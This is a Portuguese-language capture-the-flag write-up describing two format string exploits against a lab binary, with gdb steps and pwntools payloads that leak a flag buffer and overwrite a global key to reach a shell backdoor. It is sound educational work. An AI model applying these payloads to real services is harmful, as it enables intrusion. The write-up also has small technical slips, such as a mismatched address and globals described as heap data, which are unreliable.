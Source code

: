 # CTF 3 - Semana 7

## Primeira parte

Inicialmente exploramos os ficheiros disponibilizados na plataforma CTF que são os mesmos que estão a ser executados no servidor na porta 4004. 

Com o comando **checksec** verificamos que `program` (main.c compilado) não tem o binário randomizado mas existem proteções do endereço de retorno usando canários. 

```bash
$ checksec --file=program
```

Depois avaliamos o funcionamento do código `main.c`. O input é guardado num buffer de 32 bytes através da função scanf e depois impresso por **printf** para sem argumentos adicionais. Assim, é possível usar "format string attack" para usurpar o seu funcionamento, já que não há randomização dos endereços.

Quando a função `load_flag` é invocada lê a flag contida no diretório para outro buffer que é uma variável global e, portanto, está alocado na Heap. Ao descobrir o endereço da função é possível retornar o valor da string do buffer.

Para descobrir o endereço da função, usamos o debugger gdb:

```bash
$ gdb program
$ p load_flag # 
```

O resultado foi o endereço de retorno "0x08049256", que é "\x60\xC0\x04\x08" em formato de string.

Usando o programa em python disponibilizado, injetamos o input que contém o exploit:

```python
p.recvuntil(b"got:")
p.sendline(b"\x60\xC0\x04\x08%s")
p.interactive()
```

![CTF 3 A](../img/ctf3task1.png)

Ao executar conseguimos ter acesso ao conteúdo do ficheiro `flag.txt` e à flag do desafio, `flag{07147311b8387a60fea61e241035bf04}`.

## Segunda parte

Após avaliar o novo `program` que continua sem randomização de endereços, avaliamos o funcionamento do código `main.c`. Desta vez uma bash é lançada se o valor de `key` for 0xBEEF, ou seja, 48879 em decimal. Esta backdoor é suficiente para controlar o servidor e assim consultar o conteúdo do ficheiro **flag.txt**.

Para manipular o valor de key, que é uma variável global e por isso está alocada na Heap, recorremos à format string attack do input através da opção '%n'. Inicialmente precisamos do valor do endereço da variável key, e para isso recorremos ao gdb:

```bash
$ gdb program
$ p &key
```

O resultado foi o endereço "0x0804c034" que é "\x08\x04\xC0\x34" em hexadecimal. Para escrever 48879 neste endereço modificamos ligeiramente a string dada como input: após o endereço pretendido (4 bytes) é necessário escrever exatamente 48879 - 4 = 48875 bytes antes de '%n'. Como o buffer de entrada só tem no máximo 32 bytes disponíveis, recorremos à expressão compacta de leitura do printf `%.Nx`, com N = 48875.

```python
p.recvuntil(b"here...")
p.sendline(b"\x34\xC0\x04\x08%.48875x%n")
p.interactive()
```

![CTF 3 B](../img/ctf3task2.png)

Ao executar conseguimos ter acesso ao conteúdo do ficheiro `flag.txt` e à flag do desafio, `flag{67900caf37372586bef79f7dc99581fd}`.
